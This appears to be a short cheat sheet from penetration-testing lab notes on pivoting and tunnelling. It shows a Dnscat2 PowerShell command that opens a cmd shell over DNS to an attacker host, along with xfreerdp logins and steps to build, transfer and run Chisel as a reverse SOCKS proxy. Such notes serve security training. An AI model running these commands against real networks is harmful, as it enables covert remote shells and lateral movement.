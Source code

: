 ```powershell
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
*You must use pre-shared secret*

**FreeRDP**
```
xfreerdp /v:<rdp-server> /u:<user> /p:<pass>
```

**Chisel**
*SOCKS5 Proxy*
Install
```
git clone https://github.com/jpillora/chisel.git
cd chisel
go build
```
Transfer bin to another host 
```
scp chisel <user>@<target-ip>:~/
```
Running on a pivot host
```
./chisel server -v -p 1234 --socks5
```
Running on the pivot
```
./chisel client -v <pivot-host>:1234 socks
```
Reverse Proxy
```
sudo ./chisel server --reverse -v -p 1234 --socks5
```
```
./chisel client -v 10.10.14.17:1234 R:socks
```
